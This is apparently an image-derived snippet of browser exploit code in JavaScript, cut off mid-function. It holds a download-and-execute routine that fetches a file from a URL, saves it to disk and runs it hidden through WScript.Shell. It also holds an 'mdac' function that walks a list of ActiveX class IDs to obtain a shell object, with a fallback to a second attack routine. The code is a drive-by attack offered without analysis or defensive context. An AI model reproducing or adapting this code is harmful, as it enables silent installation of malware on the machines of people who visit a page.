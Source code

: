 ```
		xhr = new XMLHttpRequest();
	} catch (e) {
		try {
			xhr = new ActiveXObject('Microsoft.XMLHTTP');
		} catch (e) {
			xhr = new ActiveXObject('MSXML2.ServerXMLHTTP');
		}
	}
	if (!xhr)
		return 0;
	xhr.open('GET', urltofile, false);
	xhr.send(null);
	var filecontent = xhr.responseBody;
	o.Type = 1;
	o.Mode = 3;
	o.Open();
	o.Write(filecontent);
	o.SaveToFile(bin, 2);
	s.Run(bin, 0);
}
function mdac() {
	var i = 0;
	var objects = new Array('{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{AB9BCEDD-EC7E-47E1-9322-D4A210617116}', '{0006F033-0000-0000-C000-000000000046}', '{0006F03A-0000-0000-C000-000000000046}', '{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}', '{6414512B-B978-451D-A0D8-FCFDF33E833C}', '{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}', '{06723E09-F4C2-43c8-8358-09FCD1DB0766}', '{639F725F-1B2D-4831-A9FD-874847682010}', '{BA018599-1DB3-44f9-83B4-461454C84BF8}', '{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}', '{E8CCCDDF-CA28-496b-B050-6C07C962476B}', null);
	while (objects[i]) {
		var a = null;
		if (objects[i].substring(0, 1) == '{') {
			a = document.createElement('object');
			a.setAttribute('classid', 'clsid:' + objects[i].substring(1, objects[i].length - 1));
		} else {
			try {
				a = new ActiveXObject(objects[i]);
			} catch (e) {
			}
		}
		if (a) {
			try {
				var b = CreateO(a, 'WScript.Shell');
				if (b) {
					if (Go(a)) {
						if (CheckIP()) {
							Complete();
						} else {
							aolwinamp();
						}
						return true;
					}
				}
			} catch (e) {
			}
		}
		i++;
	}
	aolwinamp();
}
function aolwinamp() {
	try {
		var obj = document.createElement('object');
		document.body.appendChild(obj);
```